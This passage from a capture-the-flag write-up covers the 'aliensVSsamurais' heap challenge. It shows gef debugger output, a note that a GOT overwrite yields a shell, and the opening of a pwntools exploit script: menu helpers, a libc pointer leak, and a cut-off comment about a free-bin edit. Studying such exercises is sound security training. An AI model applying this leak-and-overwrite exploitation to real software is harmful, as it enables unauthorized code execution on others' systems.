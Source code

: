 ```
0x563912451020: 0x00007fc5abe65690
gef➤  x/i 0x00007fc5abe65690
   0x7fc5abe65690 <puts>: push   r12
```

Then we do our got overwrite, and we get a shell!

## Exploit

Putting it all together, we get the following exploit:

```
from pwn import *

target = process("./aliensVSsamurais", env={"LD_PRELOAD":"./libc-2.23.so"})
#gdb.attach(target)

elf = ELF('aliensVSsamurais')
libc = ELF('libc-2.23.so')

def goToHatchery():
  target.sendline("3")

def makeAlien(size, content, newline=None):
  print target.recvuntil("Brood mother, what tasks do we have today.")
  target.sendline("1")
  print target.recvuntil("How long is my name?")
  target.sendline(str(size))
  print target.recvuntil("What is my name?")
  if newline == None:
    target.sendline(content)
  else:
    target.send(content)
def killAlien(index):
  print target.recvuntil("Brood mother, what tasks do we have today.")
  target.sendline("2")
  print target.recvuntil("Which alien is unsatisfactory, brood mother?")
  target.sendline(str(index))

def editAlien(index, content, leak = None):
  print target.recvuntil("Brood mother, what tasks do we have today.")
  target.sendline("3")
  print target.recvuntil("Brood mother, which one of my babies would you like to rename?")
  target.sendline(str(index))
  print target.recvuntil("Oh great what would you like to rename ")

  if leak != None:
    leak = target.recvline()
    leak = leak.replace(" to?\n", "")
    leak = u64(leak + "\x00"*(8-len(leak)))
    print "leak is: " + hex(leak)
    target.send(p64(leak)[:6])
  else:
    target.sendline(content)

  return leak


goToHatchery()



# Get that free bin edit / libc infoleak

```